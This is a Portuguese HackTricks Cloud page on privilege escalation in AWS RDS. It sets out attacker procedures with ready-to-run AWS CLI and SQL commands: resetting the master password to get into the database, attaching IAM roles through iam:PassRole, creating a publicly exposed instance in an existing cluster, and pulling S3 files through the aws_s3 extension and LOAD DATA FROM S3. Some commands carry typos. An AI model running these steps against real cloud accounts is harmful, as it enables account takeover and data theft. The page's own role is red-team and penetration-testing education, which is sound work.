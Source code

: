 # AWS - RDS Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## RDS - Serviço de Banco de Dados Relacional

Para mais informações sobre RDS, confira:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Com essa permissão, um atacante pode **modificar a senha do usuário mestre**, e o login dentro do banco de dados:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Você precisará ser capaz de **contatar o banco de dados** (eles geralmente são acessíveis apenas de redes internas).
{% endhint %}

**Impacto Potencial:** Encontrar informações sensíveis dentro dos bancos de dados.

### rds-db:connect

De acordo com os [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), um usuário com essa permissão poderia se conectar à instância do DB.

### Abusar das permissões do papel IAM do RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Se ao executar **`SELECT datname FROM pg_database;`** você encontrar um banco de dados chamado **`rdsadmin`**, você sabe que está dentro de um **banco de dados postgresql da AWS**.
{% endhint %}

Primeiro, você pode verificar se este banco de dados foi usado para acessar qualquer outro serviço da AWS. Você pode verificar isso observando as extensões instaladas:
```sql
SELECT * FROM pg_extension;
```
Se você encontrar algo como **`aws_s3`**, pode assumir que este banco de dados tem **algum tipo de acesso ao S3** (existem outras extensões como **`aws_ml`** e **`aws_lambda`**).

Além disso, se você tiver permissões para executar **`aws rds describe-db-clusters`**, pode ver lá se o **cluster tem algum IAM Role associado** no campo **`AssociatedRoles`**. Se houver, você pode assumir que o banco de dados foi **preparado para acessar outros serviços da AWS**. Com base no **nome da função** (ou se você puder obter as **permissões** da função), você poderia **adivinhar** que acesso extra o banco de dados possui.

Agora, para **ler um arquivo dentro de um bucket**, você precisa saber o caminho completo. Você pode lê-lo com:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Se você tivesse **credenciais AWS brutas**, também poderia usá-las para acessar dados do S3 com:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **não precisa mudar nenhuma variável do grupo de parâmetros** para poder acessar o S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Dentro de um mysql, se você executar a consulta **`SELECT User, Host FROM mysql.user;`** e houver um usuário chamado **`rdsadmin`**, você pode assumir que está dentro de um **banco de dados mysql AWS RDS**.
{% endhint %}

Dentro do mysql, execute **`show variables;`** e se as variáveis como **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, tiverem valores, você pode assumir que o banco de dados está preparado para acessar dados do S3.

Além disso, se você tiver permissões para executar **`aws rds describe-db-clusters`**, pode verificar se o cluster tem algum **papel associado**, o que geralmente significa acesso a serviços AWS).

Agora, para **ler um arquivo dentro de um bucket** você precisa saber o caminho completo. Você pode lê-lo com:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Um atacante com as permissões `rds:AddRoleToDBCluster` e `iam:PassRole` pode **adicionar um papel especificado a uma instância RDS existente**. Isso pode permitir que o atacante **acesse dados sensíveis** ou modifique os dados dentro da instância.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impacto Potencial**: Acesso a dados sensíveis ou modificações não autorizadas nos dados na instância RDS.\
Observe que alguns DBs requerem configurações adicionais, como Mysql, que precisa especificar o ARN da função nos grupos de parâmetros também.

### `rds:CreateDBInstance`

Apenas com essa permissão, um atacante poderia criar uma **nova instância dentro de um cluster** que já existe e tem uma **função IAM** anexada. Ele não poderá alterar a senha do usuário mestre, mas pode ser capaz de expor a nova instância de banco de dados à internet:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Testar
{% endhint %}

Um atacante com as permissões `rds:CreateDBInstance` e `iam:PassRole` pode **criar uma nova instância RDS com um papel especificado anexado**. O atacante pode então potencialmente **acessar dados sensíveis** ou modificar os dados dentro da instância.

{% hint style="warning" %}
Alguns requisitos do papel/perfil de instância a serem anexados (de [**aqui**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* O perfil deve existir em sua conta.
* O perfil deve ter um papel IAM que o Amazon EC2 tenha permissões para assumir.
* O nome do perfil da instância e o nome do papel IAM associado devem começar com o prefixo `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impacto Potencial**: Acesso a dados sensíveis ou modificações não autorizadas nos dados na instância RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Um atacante com as permissões `rds:AddRoleToDBInstance` e `iam:PassRole` pode **adicionar um papel especificado a uma instância RDS existente**. Isso poderia permitir que o atacante **acessasse dados sensíveis** ou modificasse os dados dentro da instância.

{% hint style="warning" %}
A instância do DB deve estar fora de um cluster para isso
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impacto Potencial**: Acesso a dados sensíveis ou modificações não autorizadas nos dados na instância RDS.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

